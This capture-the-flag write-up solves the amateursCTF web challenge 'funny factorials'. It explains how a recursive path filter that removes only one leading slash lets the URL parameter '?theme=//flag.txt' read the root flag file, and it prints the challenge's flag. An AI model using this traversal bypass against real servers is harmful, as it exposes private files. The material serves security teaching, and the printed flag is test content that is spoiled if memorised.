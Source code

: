 # funny factorials

## Description

> I made a factorials app! It's so fancy and shmancy. However factorials don't seem to properly compute at big numbers! Can you help me fix it?
>
> Author: stuxf
>
> [`funny-factorials.amt.rs`](https://funny-factorials.amt.rs/)
>
> Downloads:\
> [`app.py`](app.py) > [`Dockerfile`](Dockerfile)

Tags: _web_

## Solution

This is a website that calculates factorial given a number, also it has a light and dark mode. We are given two files, the application in Python and a docker file. By reading Dockerfile, we notice that the flag is in root `/flag.txt`. On the other hand, we can see in the source code that route handlers retrieve a style sheet given a _theme_ argument in the URL, which could open the door for a directory traversal attack.

```c
safe_theme = filter_path(request.args.get("theme", "themes/theme1.css"))
```

Nevertheless, we also notice that it passes through a recursive validation function `filther_path` which changes any `../` for an empty string, making it impossible for an attacker to provide any relative URL path.

```python
def filter_path(path):
    # print(path)
    path = path.replace("../", "")
    try:
        return filter_path(path)
    except RecursionError:
        # remove root / from path if it exists
        if path[0] == "/":
            path = path[1:]
        print(path)
        return path
```

It also removes root `/` from path when function reaches the recursive limit settled in the last lines of the source code.

```python
if __name__ == '__main__':
    sys.setrecursionlimit(100)
    app.run(host='0.0.0.0')
```

Removing root from the path prevents us to retrieve the flag using absolute URL paths like `/flag.txt`. However, it removes root just once, allowing us to write `//flag.txt` or `/////flag.txt`. In this way, if we pass the URL the argument `theme=//flag.txt` like this:

```
https://funny-factorials.amt.rs/?theme=//flag.txt
```

We get the flag nested in a style label:

```html
<head>
  <title>Factorial Calculator</title>
  <!-- inline styles passed into the template -->
  <style>
    amateursCTF{h1tt1ng_th3_r3curs10n_l1mt_1s_1mp0ssibl3}
  </style>
</head>
```

Flag `amateursCTF{h1tt1ng_th3_r3curs10n_l1mt_1s_1mp0ssibl3}`
